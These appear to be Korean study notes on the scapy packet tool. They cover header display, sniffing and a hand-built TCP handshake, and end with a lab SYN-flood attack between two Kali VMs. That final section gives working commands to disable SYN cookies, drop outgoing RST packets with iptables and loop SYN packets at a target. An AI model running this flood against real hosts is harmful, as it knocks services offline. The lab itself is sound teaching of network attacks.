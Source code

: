 # scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

### scapy 실행

```bash
scapy
```

### 지원하는 프로토콜을 확인

```
ls()
```

![scapyls](../imgs/scapyls.png)

### TCP 헤더 정보를 출력

```bash
ls(TCP)
```

![scapy ls(TCP)](../imgs/scapy1.png)

```bash
# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()
```

![scapy TCP().display()](../imgs/scapy2.png)

```bash
# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()
```

![scapy IP().display()](../imgs/scapy3.png)

```bash
# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()
```

![scapy ip.display()](../imgs/scapy4.png)

```bash
# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()
```

![scapy packet.display()](../imgs/scapy5.png)

```bash
# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()
```

![scapy sf.display()](../imgs/scapy6.png)

```bash
# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()
```

![scapy sf = sniff(count=10)](../imgs/scapy7.png)

```bash
# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

![scapy sf[0].show()](../imgs/scapy8.png)

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
sysctl -a | grep syncookies

net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"
```

![scapy sysctl -a | grep syncookies](../imgs/scapy9.png)

```bash
sysctl -w net.ipv4.tcp_syncookies=0

net.ipv4.tcp_syncookies = 0

sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"
```

![scapy sysctl -w net.ipv4.tcp_syncookies=0](../imgs/scapy10.png)

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

![scapy iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP](../imgs/scapy11.png)

```bash
# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다
```

![scapy](../imgs/scapy12.png)

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
